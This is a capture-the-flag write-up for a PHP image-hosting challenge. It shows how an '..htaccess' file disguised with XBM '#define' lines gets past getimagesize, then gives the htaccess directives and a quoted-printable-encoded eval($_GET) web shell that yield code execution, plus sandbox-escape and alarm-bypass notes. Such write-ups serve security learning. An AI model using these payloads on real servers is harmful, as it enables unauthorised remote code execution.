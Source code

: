 # l33t-hoster

## Vuln

```php
$tmp_name = $_FILES["image"]["tmp_name"];
$name = $_FILES["image"]["name"];
$parts = explode(".", $name);
$ext = array_pop($parts);

if (empty($parts[0])) {
    array_shift($parts);
}

if (count($parts) === 0) {
    die("lol filename is empty");
}
```
- We can upload .htaccess file with `..htaccess` filename.
- But we have to bypass getimagesize.
- Since getimagesize lazy checks image header, only some signatures, width and height.
- We have to apache .htaccess's bad characters e.g.) non valid chracters except #(comment)
- See the following source code.
        - https://github.com/php/php-src/blob/master/ext/standard/image.c#L1381
        - https://github.com/php/php-src/blob/master/ext/standard/image.c#L1033

```c
if (php_get_xbm(stream, NULL)) {
	return IMAGE_FILETYPE_XBM;
}
return IMAGE_FILETYPE_UNKNOWN;
```

```c
static int php_get_xbm(php_stream *stream, struct gfxinfo **result)
{
    char *fline;
    char *iname;
    char *type;
    int value;
    unsigned int width = 0, height = 0;

	if (result) {
		*result = NULL;
	}
	if (php_stream_rewind(stream)) {
		return 0;
	}
	while ((fline=php_stream_gets(stream, NULL, 0)) != NULL) {
		iname = estrdup(fline); /* simple way to get necessary buffer of required size */
		if (sscanf(fline, "#define %s %d", iname, &value) == 2) {
			if (!(type = strrchr(iname, '_'))) {
				type = iname;
			} else {
				type++;
			}

			if (!strcmp("width", type)) {
				width = (unsigned int) value;
				if (height) {
					efree(iname);
					break;
				}
			}
			if (!strcmp("height", type)) {
				height = (unsigned int) value;
				if (width) {
					efree(iname);
					break;
				}
			}
		}
		efree(fline);
		efree(iname);
	}
	if (fline) {
		efree(fline);
	}

	if (width && height) {
		if (result) {
			*result = (struct gfxinfo *) ecalloc(1, sizeof(struct gfxinfo));
			(*result)->width = width;
			(*result)->height = height;
		}
		return IMAGE_FILETYPE_XBM;
	}

	return 0;
}
```
- If there is a line with `#define %s %d`, we can put any lines in the file.
- So if we make .htaccess file like this.

```
#define 915eefb1c517499ad090b8b05623cdad_width 1337
#define 915eefb1c517499ad090b8b05623cdad_height 1337
blahblah
```

- We can easily bypass the getimagesize filter.

## Exploit

### RCE

- Now we can upload .htaccess with arbitrary data.
- auto_prepend value supports php protocol, we can run the php script.
- However there is another filter. (if file contains `<?`, we cannot upload the file)
- We can easily bypass with filter convert function.

```
php_value auto_prepend_file "php://filter/convert.quoted-printable-decode/resource=./juno.asdf"
AddType application/x-httpd-php .txt
```

```
=0A=3c?php error_reporting(E_ALL); ini_set("display_errors", 1); eval($_GET[x]); ?>
```

### SBX Escape

- There are disable_functions :( .
```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,exec,passthru,shell_exec,system,proc_open,popen,pcntl_exec,posix_mkfifo, pg_lo_import, dbmopen, dbase_open, popen, chgrp, chown, chmod, symlink,apache_setenv,define_syslog_variables, posix_getpwuid, posix_kill, posix_mkfifo, posix_setpgid, posix_setsid, posix_uname, proc_close, pclose, proc_nice, proc_terminate,curl_exec,curl_multi_exec,parse_ini_file,show_source,imap_open,fopen,copy,rename,readfile,readlink,tmpfile,tempnam,touch,link,file_put_contents,file,ftp_connect,ftp_ssl_connect,
```
- We can use LD_PRELOAD and mail trick to escape SBX. (https://blog.csdn.net/qq_27446553/article/details/80235811)
- I used reverse shell.

### Bypass Alarm.

- There is a simple captcha, but the alarm occurs in 0.01sec.

```
newa.it_value.tv_sec = 0LL;
newa.it_value.tv_usec = 10000LL;              //  1000000
newa.it_interval.tv_sec = 0LL;
newa.it_interval.tv_usec = 0LL;
setitimer(ITIMER_REAL, &newa, 0LL);
```
- We can ignore sigalrm with sigignore function.

```
sigignore(SIGALRM);

```

